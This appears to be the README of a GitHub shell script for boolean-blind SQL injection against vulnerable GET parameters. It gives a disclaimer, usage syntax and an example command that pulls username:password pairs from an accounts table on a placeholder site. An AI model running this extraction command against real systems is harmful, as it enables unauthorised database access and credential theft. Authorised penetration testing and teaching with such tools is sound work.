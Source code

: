 **DISCLAIMER**: I AM NOT RESPONSIBLE OF THE MISUSE OF THIS TOOL. YOU RUN IT AT YOUR OWN RISK. Before running it, make sure you are in a controlled environment, and where you are allowed to perform this kind of exercise. PLEASE BE KIND :)

# blindsqli
A really simple script for boolean-blind SQLi exploitation of vulnerable GET parameters

![alt text](https://github.com/chesire-cat/blindsqli/blob/main/images/blindsqli.png?raw=true)

## Usage
  Syntax: `./blindsqli.sh 'http[s]://<URL>?<vulnparam>=<paramvalue>' '<SQL query>' '<String which appears when TRUE condition>'`
  
  > Notice that the vulnerable GET parameter should be at the end of the URL. In the example below, _id_ is the vulnerable GET paramenter.
  
  Example: `./blindsqli.sh 'http://vulnerable.site/sqli.php?Submit=Submit&id=1234' 'SELECT concat(username,":",password) FROM awd.accounts LIMIT 1,1' 'JohnDoe'"`
    
## TODOs
  - [ ] Target POST parameters.
  - [ ] Optimization.
